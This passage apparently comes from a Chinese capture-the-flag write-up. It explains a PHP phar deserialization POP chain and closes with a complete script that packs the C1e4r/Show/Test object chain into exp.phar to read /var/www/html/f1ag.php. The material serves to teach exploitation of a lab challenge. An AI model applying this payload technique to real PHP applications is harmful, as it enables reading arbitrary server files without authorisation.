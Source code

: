 
接着到Test::get函数里面执行

```
$value = $this->params["source"];
```

设置

```
$this->params["source"]="/var/www/html/f1ag.php"
```


然后执行

```
$this->file_get("/var/www/html/f1ag.php")
```


最后返回

```
base64_encode(file_get_contents("/var/www/html/f1ag.php"));
```

解码就可以得到flag了。

pop链

```
<?php
class C1e4r
{
    public $test;
    public $str;
}
class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
}

$c1e4r = new C1e4r();
$show = new Show();
$test = new Test();
$test->params['source'] = "/var/www/html/f1ag.php";
$c1e4r->str = $show;   //利用  $this->test = $this->str; echo $this->test;
$show->str['str'] = $test;  //利用 $this->str['str']->source;

$phar = new Phar("exp.phar"); //.phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>'); //固定的
$phar->setMetadata($c1e4r); //触发的头是C1e4r类，所以传入C1e4r对象，将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //随便写点什么生成个签名，添加要压缩的文件
$phar->stopBuffering();
?>
```
